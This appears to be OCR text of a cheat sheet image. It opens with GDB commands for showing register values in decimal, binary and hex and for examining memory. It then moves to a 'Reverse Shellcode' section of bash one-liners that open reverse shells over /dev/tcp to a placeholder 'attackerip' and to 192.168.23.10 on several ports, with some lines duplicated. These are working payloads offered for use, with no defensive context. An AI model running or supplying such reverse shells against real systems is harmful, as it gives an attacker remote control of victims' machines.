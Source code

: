 checking ‘REGISTERS’ and ‘MEMORY’

Display Register Values : \(Decimal , Binary , Hex \)

print /d –&gt; Decimal

print /t –&gt; Binary

print /x –&gt; Hex

O/P :

\(gdb\) print /d $eax

$17 = 13

\(gdb\) print /t $eax

$18 = 1101

\(gdb\) print /x $eax

$19 = 0xd

\(gdb\)

Display values of specific memory locations :

command : x/nyz \(Examine\)

n –&gt; Number of fields to display ==&gt;

y –&gt; Format for output ==&gt; c \(character\) , d \(decimal\) , x \(Hexadecimal\)

z –&gt; Size of field to be displayed ==&gt; b \(byte\) , h \(halfword\), w \(word 32 Bit\)

**Cheat Codes:**

**Reverse Shellcode:**

**BASH:**

bash -i &gt;& /dev/tcp/192.168.23.10/443 0&gt;&1

exec /bin/bash 0&0 2&gt;&0

exec /bin/bash 0&0 2&gt;&0

0&lt;&196;exec 196&lt;&gt;/dev/tcp/attackerip/4444; sh &lt;&196 &gt;&196 2&gt;&196

0&lt;&196;exec 196&lt;&gt;/dev/tcp/attackerip/4444; sh &lt;&196 &gt;&196 2&gt;&196

exec 5&lt;&gt;/dev/tcp/attackerip/4444 cat &lt;&5 \| while read line; do $line 2&gt;&5 &gt;&5; done \# or: while read line 0&lt;&5; do $line 2&gt;&5 &gt;&5; done

exec 5&lt;&gt;/dev/tcp/attackerip/4444

cat &lt;&5 \| while read line; do $line 2&gt;&5 &gt;&5; done \# or:

while read line 0&lt;&5; do $line 2&gt;&5 &gt;&5; done

/bin/bash -i &gt; /dev/tcp/attackerip/8080 0&lt;&1 2&gt;&1

/bin/bash -i &gt; /dev/tcp/192.168.23.10/443 0&lt;&1 2&gt;&1
